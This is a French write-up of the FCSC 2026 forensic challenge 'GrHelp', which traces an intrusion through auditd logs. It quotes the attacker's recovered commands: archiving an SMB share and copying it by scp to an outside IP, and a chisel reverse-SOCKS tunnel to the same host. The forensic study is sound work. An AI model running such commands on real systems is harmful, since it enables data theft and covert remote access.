




+++
date = '2026-04-15T10:50:30+01:00'
title = 'GrHelp'
draft = false
categories = ["Forensic"]
tags = ["Medium"]
description = "Challenge de Forensic du FCSC 2026"
+++


# GrHelp   

Nous avons ici des logs `auditd` provenant d'une infrastructure composé de plusieurs machines. 

## Exfiltration

Nous devons ici retrouver un document qui a été exfiltrer depuis la machine backup.

On peut alors sortir tous les logs de la machine backup et ne prendre que les éléments pouvant concerner de l'exfiltration vers une machine extérieur au réseau:

```bash
cat *.log | grep "backupfiler" > all_backup.log
grep -Ei -C 3 --color=always "scp|sftp|ftp|rsync|ncat" all_backup.log
```



Dans toutes ces sorties, nous avons beaucoup de lignes inutiles, mais une ressort particulièrement: 



Nous pouvons même retrouver l'entièreté de l'exfiltration:



Avec les commandes:

```bash
tar cvzf smb_share.tar.gz /smb_share
scp /tmp/smb_share.tar.gz 15.188.57.187
rm smb_share.tar.gz
```
Nous avons alors l'éléments exfiltré et l'IP de l'attaquant. 

## Connect back

Nous devons ici trouver une connexion depuis une machine de l'infra vers le serveur de l'attaquant. 

Depuis l'exfiltration du dernier challenge, nous avons l'information d'une adresse IP appartenant à l'attaquant.

On filtre seulement par commandes executés, puis on en sort commande correspondant à l'IP suspecte:


On trouve alors cette commande:

```bash
./update client 15.188.57.187:9999 R:socks
```

Avec quelque recherche, nous pouvons voir que cette commande ressemble à l'outil `chisel`:

```bash
chisel client $ATTACKER_MACHINE_IP:$ATTACKER_MACHINE_PORT R:socks
``